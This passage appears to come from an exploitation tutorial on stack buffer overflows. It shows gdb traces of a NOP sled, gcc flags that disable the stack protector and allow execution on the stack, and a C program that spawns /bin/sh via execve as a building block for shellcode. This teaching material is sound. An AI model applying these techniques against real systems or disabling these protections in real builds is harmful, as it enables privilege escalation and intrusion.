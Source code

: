 But when we try to execute the `nop` instruction on the *Stack* the program crashes with a *Segmentation fault*, the reason being that by default execution on the *Stack* is not allowed.
```assembly
(gdb) stepi
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffe4a8 in ?? ()
```
We can explicitly allow execution on the *Stack* with the `-Wa,--exec` compiler option
```console
gcc -ggdb -fno-stack-protector -Wa,--exec -o overflow overflow.c
```
When we now run `overflow`in the debugger the *Segmentation fault* occurs at `0x7fffffffe4b0` where the first invalid instruction  is encountered after the execution of the eight `nop` instructions on the *Stack*.
```assembly
> gdb -n overflow
(gdb) run $STR
Starting program: /home/hacker/overflow $STR
&buf 0x00007fffffffe4a8 rbp 0x3837363534333231 rip 0x00007fffffffe4a8

Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffe4b0 in ?? ()
```
## The execve() Command <a name="section2"></a>

The `execve()` system call hands the current process together with its process ID and all access rights to the program called by `execve()` .

**C 2**: <a name="c2"></a> The C program [execve.c](execve.c) shown below hands over control of the current process to `/bin/sh`.
```C
 1 #include <stdio.h>
 2 #include <stdlib.h>
 3 #include <unistd.h>
 4
 5 int main(void)
 6 {
 7     char string[] = "/bin/sh";
 8     char *argv[2];
 9
10     argv[0] = string;
11     argv[1] = NULL;
12     execve(string, argv, NULL);
13     exit(0);
14 }
```
We compile `execve.c`with the command
```console
> gcc -o execve execve.c
```
and run `execve`
```console
> ./execve
#
```
We see that the process running the program has been taken over be a shell.
```console
# env
PWD=/home/hacker
# id
uid=0(root) gid=0(root) groups=0(root)
# exit
>
```


[AS]: mailto:andreas.steffen@strongsec.net
[CC]: http://creativecommons.org/licenses/by/4.0/